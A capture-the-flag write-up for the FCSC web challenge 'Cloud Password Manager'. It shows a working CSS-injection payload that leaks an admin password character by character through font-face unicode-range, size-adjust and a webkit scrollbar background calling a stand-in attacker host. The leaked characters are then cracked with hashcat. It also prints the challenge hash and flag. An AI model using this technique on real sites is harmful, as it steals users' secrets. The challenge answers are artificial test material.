





# Cloud Password Manager

# Category

Web

# Author

Worty

# Description
Une entreprise de stockage de mots de passe dans le cloud vient se faire attaquer.

L'admin étant injoignable, on vous demande d'estimer très rapidement si en l'état, il est possible de se connecter à son compte.

https://cloud-password-manager.france-cybersecurity-challenge.fr/

Remarque : les comptes utilisateurs vieux de plus d'une heure sont supprimés automatiquement.


# Solution

As usual when I arrive on a web chall, a little initial recognition to get into the bath. Wappalyzer identifies that this application has been developed in flask, and we can see CSP on it, which are very strict and do not leave room for an XSS. There is, however, one rule that is permissive :

```
img-src http://* https://*;
```

So if we are able to inject an image tag or something else, we can grab the image from a remote ressource, this will be important for this challenge. 

Also, there is a flag page but we can only reach it if we're able to connect as the administrator.

When we arrive on the challenge, nothing interesting except one thing ! This website was hacked and they leaked the admin password :

```
sha256$FKM5MLhBFZ87pPgI$a51c4c0463d199fcf4a18bd8df2f40360c46e9caed05072618e8026f02dc83bf
```

Moreover, to create a password, he must :
- Have at least one lower ascii character
- Have at least one upper ascii character
- Have at least one number

This application is... a password manager, and store them in clear..



There is no way to trigger an XSS on this challenge, our inputs are filtered and there are strict CSPs. But the application allows us to inject some CSS code to "customize" our password manager. Our goal is clear, we have to exploit this functionnality to be able to exfiltrate the admin password (we can do this because we can send our style to the admin).



In a standard CSS exfiltration, we use the fact that a secret is put into the application using the "value" attribute of a HTML tag, example :

```
<input hidden name="csrftoken" value="someRandomChar">
```

With a CSS injection, we can exfiltrate this with a rule that say "hey to the input with name csrftoken if you start by 's' reach this image!", like this :

```
input[name="csrftoken"][value^="s"]{
    background-image: url(https://attacker.com/?char=s)
}
```

But in our case, there is an "id" attribute, but the password is reflected in a HTML node, and not inside an attribute, so it's impossible to exploit like this. By reading <a href="https://x-c3ll.github.io/posts/CSS-Injection-Primitives/">this</a> article, we see that it's possible to create a font-face, use the parameter unicode-range as oracle, and set the src of this font as our leak. "unicode-range" is a parameter of font-face which allows developer to apply CSS rules to specific values. Here the exploit is obvious, you set the unicode-range as only one character, and then use the "src" parameter of font-face as exfiltrator. This is beautiful and.... nop.. a CSP deny the loading "font-src: self".



The last article of the previous website talk about a dark technique to exfiltrate the content of an HTML node and this is incredibly smart.

We are going to use the font-face directive to create a new font and use the unicode-range oracle as I describe before. We are not going to have directly the password, but we'll have characters that are inside it, and remember, we have sha256 hash corresponding to admin password, so if we are able to exploit like this, we can then use hash-utils to compute permutations and then run hashcat to break the hash !

The basis of my exploit is to use the scrollbar which can be displayed on a HTML div. Indeed, the fact that there is a scrollbar on an HTML element or not is something that can be known in CSS! So if we manage to display a scrollbar (and also using unicode-range), and it appears, then we know that the tested character is part of the admin password. To do this, we use the size-adjust parameter of the font face by increasing by 10000 the size of the tested character which will inevitably make a scrollbar appear.

Moreover, you have to add the directive "overflow: scroll" on the div "p1", which allows you to tell it to display a scrollbar if one/several character(s) exceeds the size of this one.

The font-face will be compose with :
- font-family: The name that we give to our new font-face
- src: Where is stored the ttf, woff, woff2, .. file for our font-face (i've just took one that was available on the challenge website due to CSP)
- unicode-range : The character that we are currently testing
- size-adjust: 10000% to be sure :)

To apply the font to our div, we put the attribute "font-family: pocFont" on it, as simple as that.

Last thing to do, trigger if a scroll bar is created, and this can be done like that :

```css
#p1::-webkit-scrollbar { 
      background: url(https://attacker.fr/?data=<currently tested character>);
}
```

Remember the CSP on img-src ? This allows us to do this (see before) and then exfiltrate the character :)

And when i try it, it didnt work.. and I've try for 45 minutes and then I decide to check the docs..



Guess what ? I was testing with firefox..



Then I test it on brave, and with my password (which was... password) it works like a charm !

So this is our final exploit :

```css
@font-face {
  font-family: pocFont;
  src: url(static/fonts/GeorgiaBold.ttf);
  unicode-range: U+0053;
}

#p1{
font-family: pocFont;
}

ensuite:

@font-face {
  font-family: pocFont;
  src: url(static/fonts/GeorgiaBold.ttf);
  unicode-range: U+0030;
  size-adjust: 10000%;
}

#p1 {
font-family: pocFont;
overflow:scroll;
}

#p1::-webkit-scrollbar { 
      background: url(https://attacker.fr/?data=0);
}
```

Then I have created the custom CSS, send it to admin, and this for all characters. I could have automated this with a python script, but as there is a some rate-limits on challenges and the bot took 5-10 seconds to visit our page, I've do it by hand.

At the end, we recover 12 characters ! (if two characters would have been identical in the admin password I'll recovered only 11, ...) : `24GIOSThkmqu`

Time to use hash-utils and hashcat !
The hash of the admin stands for mode "1460" of hashcat, so our command is :

```sh
> echo "24GIOSThkmqu" | ./permute.bin | hashcat -m 1460 ../../hash --show
a51c4c0463d199fcf4a18bd8df2f40360c46e9caed05072618e8026f02dc83bf:FKM5MLhBFZ87pPgI:4mSIq2uGThOk
```

In less than one minute we found it ! Let's connect as admin and recover our precious flag !

# Flag

FCSC{285b45edec8067daa4e8548168cc37cbb20cadc6162006cd248778adce9178c0}